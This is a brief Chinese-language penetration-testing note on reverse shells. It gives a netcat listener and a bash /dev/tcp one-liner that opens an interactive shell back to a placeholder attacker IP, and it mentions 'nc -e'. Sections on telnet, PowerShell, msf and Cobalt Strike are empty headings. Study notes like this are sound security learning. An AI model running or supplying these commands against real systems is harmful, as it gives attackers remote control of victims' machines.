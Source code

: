 # Linux

## bash反弹shell

nc.exe：瑞士军刀。监听端口，传输数据，连接端口

```
攻击方：nc -lvp xxx：监听端口
受害者：bash -i >& /dev/tcp/攻击方服务器IP/端口 0>&1：产生交互式shell
	>&：将成功输出和报错的输出都输出出来
	0:标准输入
	1：标准输出
	2：错误
```



## nc反弹shell

条件：目标安装了nc

```
nc -e
```



## telnet反弹

条件：目标支持telnet



## 脚本反弹



# Windows

## nc反弹



## powershell反弹



## msf反弹



## Cobalt Strike

内网渗透工具，支持团队作战

